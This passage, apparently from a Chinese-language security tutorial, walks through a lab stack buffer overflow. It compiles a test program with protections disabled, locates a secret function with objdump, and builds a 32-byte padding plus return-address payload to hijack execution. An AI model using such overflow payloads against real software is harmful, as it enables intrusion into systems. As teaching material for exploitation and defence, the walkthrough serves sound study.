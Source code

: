 2.  将其汇编如下：

```
gcc bof.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o bof

```

3.  我们可以运行以下应用程序测试：

```
./bof  
```

![](../images/00128.jpeg)

4.  我们可以运行`objdumb`：

```
objdump -d bof  
```

由此我们可以得到秘密函数的存储位置：

![](../images/00129.jpeg)

在这里，`0804848b`。`echo`函数的局部变量保留 28 字节：

![](../images/00130.jpeg)

现在我们可以设计有效负载了——正如我们所知，为缓冲区保留了 28 个字节，它位于 EBP 指针旁边。因此，接下来的四个字节将存储 EIP。现在我们可以使用任意随机字符设置前 28+4=32 字节，然后接下来的四个字节将是`secretfunction()`的地址。

5.  现在，有效载荷将如下所示：

```
print ("a"*32 + "\x8b\x84\x04\x08")    
```

将其保存到`exploit_bof.py`文件，并将其作为应用程序的有效负载加载

6.  这将使应用程序崩溃，并提供对`secretfunction()`的访问。

![](../images/00131.jpeg)